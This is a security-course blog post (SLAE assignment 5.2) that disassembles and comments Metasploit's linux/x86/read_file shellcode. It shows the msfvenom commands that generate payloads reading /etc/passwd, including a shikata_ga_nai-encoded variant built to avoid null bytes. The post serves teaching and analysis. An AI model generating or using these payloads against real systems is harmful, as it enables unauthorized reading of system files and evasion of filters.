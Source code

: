 ```yaml
---
layout: post
title:  "SLAE Assignment 5.2 - Msfvenom linux/x86/read_file shellcode Analysis"
date:   2017-04-25
categories: certification
excerpt_separator: <!--more-->
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 5.2:  
  
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
<!--more-->
  
Hello everybody,  
  
Here we are for the second analysis of our msf shellcodes.  Let's perform the analysis for the **linux/x86/read_file** shellcode:  
```bash
# msfvenom -p linux/x86/read_file --payload-options
Options for payload/linux/x86/read_file:


       Name: Linux Read File
     Module: payload/linux/x86/read_file
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 62
       Rank: Normal

Provided by:
    hal

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FD    1                yes       The file descriptor to write output to
PATH                   yes       The file path to read

Description:
  Read up to 4096 bytes from the local file system and write it back 
  out to the specified file descriptor
...
```
  
Let's examine the generated shellcode:  
```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call dword 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```
  
So let's comment our shellcode instructions:  
```nasm
    jmp short 0x38  ; jmp/call/pop technique
    mov eax,0x5     ; int open(const char *pathname, int flags);
    pop ebx         ; pop the @ of the string starting at 0x3D
    xor ecx,ecx     ; clears out ecx
    int 0x80        ; open syscall
    mov ebx,eax     ; file descriptor result of the open syscall
    mov eax,0x3     ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     ; 
    mov ecx,edi     ; pointer to a valid stack address
    mov edx,0x1000  ; size of buffer that will be read and buffered to the stack
    int 0x80        ; read syscall
    mov edx,eax     ; result of read and third argument of write function
    mov eax,0x4     ; ssize_t write(int fd, const void *buf, size_t count);
    mov ebx,0x1     ; standard output / ebx is still pointing to the buffer on stack
    int 0x80        ; write syscall
    mov eax,0x1     ; void _exit(int status);
    mov ebx,0x0     ; 0 everything is OK
    int 0x80        ; exit syscall
    call dword 0x2  ; pushing the @ of the following bytes (/etc/passwd) on the stack
    das
    gs jz 0xa4      
    das
    jo 0xa5
    jnc 0xb9
    ja 0xac
    db 0x00         ; null byte ending string
```
  
The jmp/call/pop technique will set the address of the following string in EBX:  
```bash
# echo -e \\x2F\\x65\\x74\\x63\\x2F\\x70\\x61\\x73\\x73\\x77\\x64
/etc/passwd
```
  
Once again you can generate a shellcode (quite more complex) without null bytes with the following command:  
```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw -b \x00 | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 100 (iteration=0)
x86/shikata_ga_nai chosen with final size 100
Payload size: 100 bytes

00000000  BAF7BD341A        mov edx,0x1a34bdf7
00000005  DBDF              fcmovnu st7
00000007  D97424F4          fnstenv [esp-0xc]
0000000B  5E                pop esi
0000000C  29C9              sub ecx,ecx
0000000E  B113              mov cl,0x13
00000010  83EEFC            sub esi,byte -0x4
00000013  31560F            xor [esi+0xf],edx
00000016  0356F8            add edx,[esi-0x8]
00000019  5F                pop edi
0000001A  C1                db 0xc1
0000001B  F1                int1
0000001C  3018              xor [eax],bl
0000001E  2F                das
0000001F  06                push es
00000020  3C58              cmp al,0x58
00000022  6B37F5            imul esi,[edi],byte -0xb
00000025  95                xchg eax,ebp
00000026  0BBEC69E0FC1      or edi,[esi-0x3ef0613a]
0000002C  C8DE8626          enter 0x86de,0x26
00000030  41                inc ecx
00000031  27                daa
00000032  22A841D85364      and ch,[eax+0x6453d841]
00000038  E151              loope 0x8b
0000003A  91                xchg eax,ecx
0000003B  CE                into
0000003C  E561              in eax,0x61
0000003E  16                push ss
0000003F  2F                das
00000040  5E                pop esi
00000041  60                pushad
00000042  16                push ss
00000043  2F                das
00000044  A0AE9697A1        mov al,[0xa19796ae]
00000049  3097E71A3097      xor [edi-0x68cfe519],dl
0000004F  E75C              out 0x5c,eax
00000051  FC                cld
00000052  17                pop ss
00000053  0F9901            setns [ecx]
00000056  E82F0E9B63        call dword 0x639b0e8a
0000005B  B37F              mov bl,0x7f
0000005D  13ED              adc ebp,ebp
0000005F  40                inc eax
00000060  0CA4              or al,0xa4
00000062  89                db 0x89
00000063  A6                cmpsb
```
  
We can see, through the analysis of all of these shellcodes, the power of msfvenom while dynamically generating shellcodes.  
    
Hope you enjoyed this post, see you soon for the second msf shellcode analysis.  
  
[Phackt](https://twitter.com/phackt_ul)